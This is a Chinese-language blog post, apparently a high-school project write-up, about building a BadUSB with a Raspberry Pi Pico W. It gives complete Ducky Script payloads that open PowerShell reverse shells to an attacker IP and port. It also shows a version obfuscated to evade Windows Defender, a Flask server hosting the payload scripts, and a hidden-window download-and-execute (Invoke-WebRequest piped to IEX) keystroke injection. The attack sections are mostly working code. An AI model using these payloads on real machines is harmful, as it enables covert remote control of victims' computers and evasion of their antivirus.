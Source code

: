 ```yaml
---
title: 我ㄉ高中專題
published: 2025-01-29
tags: [Life]
category: Cyber Security
draft: false
image: 'cover.png'
---
```


## 前言

在高三上因為課程的關係，所以我們需要在畢業前做一個專題，至於為什麼選擇 `BadUSB` 呢?其實是因為在參加那一年的 `HITCON Community` 官方有一個攤位是讓各位利用 `Badge` 當作 BadUSB 去開他們的電腦檔案
事後就去查了一下 `BadUSB` 延伸的其他攻擊，感覺蠻有趣的，而且當下也對於專題沒有其他想法，所以就決定來做 `BadUSB` ㄌ :D

## 開發板選擇

要做一個 BadUSB 其實有很多的開發板可以選擇，理論上支援 HID 就好了， 那我們為啥會特別選擇 `Raspberry Pi Pico W RP2040` 呢 ? ~~因為剛好我們科有然後加上我隊友跑去電子街買不到我原本要的 attiny 85~~。

## 前置設定

在做這個玩具ㄉ時候要先去 https://github.com/dbisu/pico-ducky 下載韌體(我也不太確定這樣叫對不對)，之後就照他的方式去做設定，接下來就可以開始想我們要如何寫整個 exploit chainㄌ 

## 製作

### Rick Roll

這是我拿來看 ducky script (BadUSB專用語言) 有哪些功能而寫出來ㄉ

```bash
REM Rick Roll with powershell 
DELAY 1000
GUI r # Winodws + R
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 500
STRING Start-Process "https://www.youtube.com/watch?v=dQw4w9WgXcQ" 
ENTER
```

主要的概念就是 `Windows + R` 開出 `Powershell`，然後用 `Start-Process` 去開一個 youtube 影片醬子

### RCE without obfuscation

接著就開始做主軸ㄌ，我在 https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/remote_access 發現了可以用於 `RCE` 的 `script`，然後就對他做了點小修改

```bash
REM RCE without obfuscation
DELAY 1500
GUI r
DELAY 500
STRING powershell 
DELAY 250
ENTER
DELAY 1500
STRING $client = New-`oBJ`ECt System.Net.Sockets.TCPClient("ip",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i
DELAY 100
STRING  = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N`ew-O`BjEcT -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i`EX $data 2>&1 | out-st`Ri`Ng );$sendback2  = $sendback + "PS " + (P`wd).Path + "> ";$sendbyte =
DELAY 100
STRING  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
DELAY 100
ENTER
```

反正就是把他拆成好幾節來用就對ㄌ，但這樣會遇到 Windows Defender 在搞鬼的問題 = =

![defender1](image.png)

### RCE with Obfuscation

所以我就想到 [pwn2ooown](https://pwn2ooown.tech/) 大佬在成大資安社某個月的讀書會有講過怎麼繞過 `Windows Defender`，簡單來說就是可以用 `Code obfuscation` 去繞過 Defender，於是就從 https://github.com/danielbohannon/Invoke-Obfuscation 搞了一個經過混淆過後的 `payload`

```bash
DELAY 1500
GUI r
DELAY 500
STRING powershell
DELAY 250
ENTER

DELAY 200
STRING $c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("10.16.20.23",4444);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$
DELAY 100
STRING s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oU
DELAY 100
STRING t-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
DELAY 100
```

然後就成功了:D

![successful1](image-1.png)

![successful2](image-2.png)

### RCE With Server

為了讓整個作案過程變得更簡單且不容易出錯，我決定架一個伺服器讓受害者下載腳本並執行，所以就用 `Flask` 寫了一個破破的網頁，然後將上面的那一些 `payload` 轉成 `.ps` 的形式

app.py:
```python
from flask import Flask

app = Flask(__name__)

@app.route("/")

def index():
    with open("payload.ps", "r") as f:
        result = f.read()
    return result

@app.route("/payload2")
def payload2():
    with open("payload2.ps", "r") as f:
        result = f.read()
    return result

app.run("0.0.0.0", port=80, debug = False)
```

payload1.ps:
```bash
$c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("ip",port);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oUt-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
```

payload2.ps:
```bash
$client = New-`oBJ`ECt System.Net.Sockets.TCPClient("ip",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N`ew-O`BjEcT -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i`EX $data 2>&1 | out-st`Ri`Ng );$sendback2  = $sendback + "PS " + (P`wd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

做好前置作業之後就開始研究怎麼讓他下載並且執行，也順便可以繞過他會卡在終端機這種尷尬事情

![stuck](image-4.png)

最後用 `Invoke-WebRequest` 去載腳本，然後用 `-WindowsStyle hidden` 去隱藏 `.ps` 的執行

```bash
WINDOWS r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 500
STRING Start-Process -FilePath "powershell.exe" -ArgumentList "-NoProfile -WindowStyle Hidden -Command `"(Invoke-WebRequest -Uri url).Content | IEX`"" -PassThru
ENTER
DELAY 1000
STRING exit
ENTER
```

成功ㄉ影片在這邊uWu [點我](https://www.youtube.com/shorts/39QhWCww4Y0)

## 踩雷 

在安裝韌體的過程中，出現了一個奇怪的事情，就是在裝好全部所需的東西時，他會因為 EPPROM 裡面的東西沒有被完全清除而閃退，會發生這樣的問題我猜是因為官方的安裝是專門 for pico 的，所以就去官往載了一個可以格式化的東東(flash_nuke) [flash_nuke](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)

## 結論

其實還蠻好玩的www，這個專題其實我只花了不到一個禮拜就完成了，這也間接導致我們這組，每次專題課在玩遊戲就是在玩遊戲的路上xDD，最後也有在老師的推薦下去比了校內的專題比賽，但是因為來評分的教授好像對於資安這方面沒有到很了解(?，所以最後只有拿一個佳作而已，ㄛ然後偷偷臭一下，血氧機那種幾百年前的爛梗居然可以拿優勝，說實話感覺心裡有點不舒服QQ。